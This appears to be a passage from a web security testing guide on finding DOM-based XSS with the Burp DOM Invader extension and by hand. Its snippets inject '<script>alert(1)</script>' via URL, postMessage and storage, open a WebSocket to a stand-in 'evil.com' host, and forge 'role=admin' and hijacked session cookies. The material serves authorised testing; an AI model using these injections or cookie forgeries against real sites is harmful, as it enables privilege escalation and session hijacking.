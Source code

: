 ### 3. DOM Invader (Burp Extension)

#### Automatic DOM Vulnerability Discovery
```javascript
// ✅ DOM Invader setup
// 1. Install Extension
// 2. Configure Sources
// 3. Define Sinks
// 4. Run automatic testing
```

#### Analyze Data Sources
```javascript
// ✅ Source analysis
// 1. URL parameters
// 2. Cookies
// 3. localStorage
// 4. sessionStorage
// 5. postMessage
// 6. WebSocket messages
```

### 4. Manual Testing

#### Test DOM XSS
```javascript
// ✅ Manual tests
// Test DOM XSS
location.hash = '<script>alert(1)</script>';
location.search = '?data=<script>alert(1)</script>';

// Test postMessage
window.postMessage('test', '*');
window.postMessage('<script>alert(1)</script>', '*');

// Test localStorage
localStorage.setItem('test', '<script>alert(1)</script>');
sessionStorage.setItem('test', 'javascript:alert(1)');

// Test WebSocket
const ws = new WebSocket('ws://evil.com');
ws.send('<script>alert(1)</script>');
```

#### Test Cookie Manipulation
```javascript
// ✅ Cookie testing
// Change cookie value
document.cookie = 'role=admin';

// Add new cookies
document.cookie = 'sessionId=hijacked123';

// Test HttpOnly
console.log(document.cookie); // HttpOnly cookies don't appear
```

---